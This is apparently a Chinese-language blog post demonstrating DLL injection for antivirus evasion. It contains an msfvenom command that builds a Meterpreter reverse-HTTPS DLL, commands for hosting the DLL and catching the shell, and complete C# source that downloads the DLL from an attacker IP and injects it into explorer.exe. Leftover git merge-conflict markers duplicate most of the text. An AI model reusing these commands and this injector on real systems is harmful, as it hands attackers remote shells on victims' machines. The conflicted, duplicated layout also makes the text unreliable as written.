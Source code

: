 ```yaml
---
title: dll注入的演示
categories:
- evasion
tags:
- evasion
---
```

<<<<<<< HEAD

## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

## 参考资料
https://github.com/tyranid/DotNetToJScript

=======

## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

```
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
		processId);
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
		dwSize, uint flAllocationType, uint flProtect);
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
		byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
		lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
		dwCreationFlags, IntPtr lpThreadId);
		[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
		SetLastError = true)]
		static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		public static extern IntPtr GetModuleHandle(string lpModuleName);
		static void Main(string[] args)
		{
			String dir =
			Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
			String dllName = dir + "\\\\whale.dll";
			WebClient wc = new WebClient();
			wc.DownloadFile("http://192.168.123.138/whale.dll", dllName);
			Process[] expProc = Process.GetProcessesByName("explorer");
			int pid = expProc[0].Id;
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			IntPtr outSize;
			Boolean res = WriteProcessMemory(hProcess, addr,
			Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
			IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
			"LoadLibraryA");
			IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
			addr, 0, IntPtr.Zero);
		}
	}
}

```

## 参考资料
https://github.com/tyranid/DotNetToJScript

>>>>>>> 1fd9a547b946ff7ba2ff40ea1e86428ed03eada8
